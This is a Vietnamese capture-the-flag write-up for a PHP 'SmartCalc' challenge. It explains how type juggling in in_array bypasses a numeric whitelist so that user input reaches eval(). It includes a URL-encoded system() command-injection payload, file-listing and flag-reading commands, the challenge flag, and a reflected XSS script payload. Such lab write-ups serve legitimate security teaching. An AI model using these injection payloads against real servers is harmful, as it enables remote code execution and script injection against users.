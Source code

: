 ## Type juggling

Yêu cầu của đề bài: Remote Code Execution được server và kiếm được FLAG

Sau khi truy cập link ta thấy:

![image](https://user-images.githubusercontent.com/90561566/234309331-ebfaefa2-acda-4923-9e4e-9b6726f2d7f7.png)

Ấn vào button source, ta được chuyển tới page debug

Trang cung cấp cho ta source code của challenge này:

```
<html>
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>MyApp Home</title>
    <link rel="stylesheet" href="style.css">
</head>
<body>
    <div class="column">
        <h1>>SmartCalc.exe_</h1>

        <?php

        ini_set('display_errors','On');
        ini_set('error_reporting','E_ALL');
        error_reporting(E_ALL);
        if(isset($_GET['debug'])) die(highlight_file(__FILE__));

        $whitelist_numbers =  range(1,1000);
        $whitelist_ops = array("+","-","*","/");

        $param1 = $_GET['p1'];
        $param2 = $_GET['p2'];
        $operator = $_GET['op'];


        if( in_array($param1, $whitelist_numbers) && in_array($param2, $whitelist_numbers) && in_array($operator, $whitelist_ops) ){
            $exec = "${param1} ${operator} ${param2}";
            $evalcode = "return $exec;";

            echo "<details><summary>DEBUG</summary>";
            echo "PHP sẽ thực thi eval code sau đây:";
            echo "<pre>$evalcode</pre>";
            echo "</details><br>";

            // Nếu chưa biết về eval có thể đọc ở đây: https://php.net/eval
            echo $exec . " = ". eval($evalcode);
        } else {
            echo "Not supported";
        }

        ?>
    </pre>
    <p>👉 <a href="?p1=191&p2=7&op=*">example</a><br>🤖 <a href="?debug">source</a></p>
</div>
</body>
```

Khử 1 vài nhiễu trong đề bài

Khi đọc đề nếu như bạn chưa quen với PHP thì khi đọc code có thể sẽ bị đi lan man vào nhiều phần không cần thiết. Ở đoạn code trên có 1 dòng mà nhiều người nghĩ là quan trọng:

```
if(isset($_GET['debug'])) die(highlight_file(__FILE__));
```

Dòng này có 1 khối if mà trong đó có hàm isset() và tham số truyền vào là biến debug, biến debug được truyền vào từ URL, cụ thể nó ở sau dấu ? trên URL.

![image](https://user-images.githubusercontent.com/90561566/234310582-6906c178-d14e-4195-ba96-cf6a72bed2d9.png)

Vậy thì nếu biến debug được truyền vào thì sẽ chạy code bên trong khối if, khối code đó là **die(highlight_file(_FILE_)); **. Hàm highlight_file() có nhiệm vụ hiển thị source code của file, tham số _FILE_ chính là đường dẫn đến thư mục hiện tại. Hàm die() có nhiệm vụ dừng việc thực thi script, có nghĩa là các đoạn code phía sau hàm này sẽ không được thực thi. 

Tổng kết lại thì nếu truyền biến debug vào thì chương trình in ra source code của file hiện tại (đây lý do bạn nhìn thấy code của thử thách này).

Do yêu cầu của đề bài là RCE nên mình search google và biết được hàm eval() trong PHP có thể là vector để RCE. Bởi vì hàm eval() cho phép tham số truyền vào được thực thi dưới dạng code PHP bình thường, nếu để người dùng tùy ý thay đổi tham số này thì rất có thể hàm như system() sẽ được gọi để thực thi code, dẫn tới việc RCE.

```
if (in_array($param1, $whitelist_numbers) && in_array($param2, $whitelist_numbers) && in_array($operator, $whitelist_ops)) {
    $exec = "${param1} ${operator} ${param2}";
    $evalcode = "return $exec;";

    echo "<details>
    <summary>DEBUG</summary>";
    echo "PHP sẽ thực thi eval code sau đây:";
    echo "
    <pre>$evalcode</pre>";
    echo "
</details><br>";

    // Nếu chưa biết về eval có thể đọc ở đây: https://php.net/eval
    echo $exec . " = " . eval($evalcode);
} else {
    echo "Not supported";
}
```

Để đến được hàm eval() thì như ta thấy có 1 khối điều kiện if dưới dạng 3 điều kiện and để kiểm tra các tham số và toán tử có nằm trong whitelist hay không.

Bài này được xây dựng dựa trên 1 hành vi của ngôn ngữ PHP, đó là PHP TYPE JUGGLING. CyberJutsu có 2 slide nói về điều này.

![image](https://user-images.githubusercontent.com/90561566/234313216-474347ea-b88c-40ff-9cc4-c8d88d9698c1.png)

![image](https://user-images.githubusercontent.com/90561566/234313292-3176d372-03b2-4908-864b-01da0e7b5c14.png)

Đọc xong 2 cái slide này thì mình phải thốt lên: Ảo thật đấy!

Mình đã thử var_dump((int)"1lasfas") và nó vẫn trả về int(1). Mình nhận ra chỉ cần ném con số 1 ra đằng trước thì đằng sau mình ghi chuỗi gì thì nó vẫn trả về (int)1. Vậy thì bypass 2 toán hạng in_array($param1, $whitelist_numbers) và in_array($param2, $whitelist_numbers) để nó trả về true cũng dễ thôi.

```
$param1 = $_GET['p1'];
$whitelist_numbers = range(1, 1000); //whitelist trải dài từ 1->1000
```

Mình truyền tham số như sau: in_array("1fasfsaf", $whitelist_numbers) thì kiểu gì hàm in_array cũng trả về true.

Cơ mà 1 điều lưu ý ở đây là nó chỉ trả về true nếu phiên bản PHP là 7.4.0 - 7.4.28, từ các phiên bản PHP 8.0.1 - 8.0.17, 8.1.0 - 8.1.4 nó sẽ trả về false.

Tất nhiên chúng ta còn 1 điều quan trọng nữa thực hiện được RCE, đó chính là ta cần cho hàm eval() chạy những command mà ta muốn. Ta thấy hàm eval() được truyền vào tham số $evalcode.

Mình tưởng tượng biến $evalcode sẽ có dạng "return 1 * 1 . system('lệnh cần gọi');". Mình search thì biết hàm system() sẽ trả về 1 chuỗi nếu như lệnh bên trong là đúng, ngược lại nếu lệnh bên trong sai thì nó sẽ trả về false.

Lúc này nếu biến $evalcode được thực thi như 1 đoạn code PHP thì nó sẽ trả về 1 chuỗi khi thực thi hàm system", vậy thì coi như những kết quả trả về từ hàm system() sẽ được in hết lên trang web dưới dạng string.

Giá trị các biến mà mình truyền vào sẽ như sau:

```
$param1 = "1";
$param2 = "1 . system('lệnh cần gọi')";
$operator = "*";
```

Để truyền các payload qua HTTP GET Protocol thì mình cần truyền vào sau dấu ? trên thanh URL như sau: `p1=1&p2=1 . system('ls -la')&op=*`. Do truyền qua GET Protocol thì các biến như p1, p2,op phải được encode trước khi gửi. 

Vậy cuối cùng payload sẽ là `p1=1&p2=1%20.%20system(%27ls+-la%27)&op=*`. Sau khi gửi thì server trả về đoạn code HTML trông như sau

![image](https://user-images.githubusercontent.com/90561566/234314752-f7287bb6-49fb-4a66-8ccc-34c903d3ce4f.png)

 Mình thử xem các file ở thư mục root bằng câu lệnh ls / -la, kết quả trả về:

![image](https://user-images.githubusercontent.com/90561566/234315182-6371116c-7df3-49df-9bd1-84637e2a25bc.png)

Xem nội dung file này bằng lệnh `cat /DAY_LA_CAI_FLAG_CHUC_MUNG_BAN`, kết quả trả về:

> Flag là `CBJS{type_juggling_PHP_is_weird}`

Ngoài ra thì mình biết là vẫn còn 1 lỗi bị bỏ sót, đó là Reflected XSS. Nhìn lại 1 chút đoạn code sau:

```
$exec = "${param1} ${operator} ${param2}"; //1
$evalcode = "return $exec;"; //2 

echo "<details><summary>DEBUG</summary>"; //3
echo "PHP sẽ thực thi eval code sau đây:"; //4
echo "<pre>$evalcode</pre>"; //5
```

Ở là dòng 5 có thể là 1 nơi có thể dẫn đến Reflected XSS. Vì $evalcode ở dòng này sẽ in ra dưới dạng string, mà string trả về cho phía Client nếu như không được filter thì rất dễ xảy ra việc XSS, ở đây là Reflected XSS. 

Chúng ta sẽ cố gắng chèn được thẻ script để thực thi JS tại trình duyệt, mình sẽ dùng hàm alert để hiện thị ra 1 popup hiển thị domain của trình duyệt, chứng minh mình XSS được trên đó. Payload truyền vào param1, param2, operator vẫn phải thỏa mãn các điều kiện mà mình đã phân tích ở trên. Hãy tưởng tượng ở dòng 1 mình truyền vào payload như sau:

```
$exec = "1<script>alert(document.domain)</script> / 1"; 
//param1 = "1<script>alert(document.domain)</script>"
//param2 = "1"
//operator = "/"
```

Từ payload trên bạn có thể tưởng tượng đoạn script của JS có thể được thực thi ngay tại trình duyệt. Đây là kết quả của nó, mình cho phép hiển thị ra pop-up in ra domain của trang web này:

![image](https://user-images.githubusercontent.com/90561566/234316187-59378a20-de85-43f0-852c-b2af034a37a7.png)
